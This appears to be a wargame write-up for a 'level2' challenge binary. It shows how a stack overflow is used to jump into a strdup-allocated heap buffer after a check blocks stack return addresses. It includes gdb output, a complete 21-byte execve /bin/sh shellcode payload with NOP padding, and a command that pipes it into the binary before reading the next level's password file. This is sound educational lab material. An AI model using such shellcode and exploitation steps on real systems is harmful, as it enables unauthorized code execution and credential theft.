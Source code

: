 # Shell code into the heap

### Look for seg fault

```bash
pattern create 
Program received signal SIGSEGV, Segmentation fault.
0x61616175 in ?? ()
pattern offset 0x61616175
[+] Found at offset 80 (little-endian search) likely
```

### Nx disable

Nx is disable so first idea was to create and exectue a shell code into the stack

[Shell code tuto and Explanation <-]()

First step consist finding the buffer address

```bash
gef➤  x/20wx $esp
0xffffd280:	0xffffd29c	0xffffffff	0x08048034	0xf7fc66d0
0xffffd290:	0xf7ffd608	0x00000020	0x00000000	0x41414141
0xffffd2a0:	0x41414141	0x41414141	0x41414141	0x41414141

```
buffer start a ```ffffd29c```

:warning: BUT !

```c
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
```

This cmp avoids us to point to the return address (0xbf000000 - 0xbfffffff range) and unfortunately, buffer his.

### No matter exec on the stack when we can exec on the heap

In gdb if you put a breakpoint after the strdup fucntion, eax store a pointer to the string allocated.

```c
b *p+105
r
allo
$eax            0x804a008	134520840
```

So if we jump to this address, and put shell code before, we can execute code.

### Payload

payload = shell code + nop instruction * (padding - shellcode.lenght) + address of buffer

```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80```

[shell code from](http://shell-storm.org/shellcode/files/shellcode-575.html)

syze of shell code : (21 bytes).

So final Buffer is : 

```bash
cat <(python2.7 -c "import sys; sys.stdout.write(b'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' +  b'\x90' * 59 + b'\x08\xa0\x04\x08')") - | ./level2
cat /home/user/level3/.pass
```
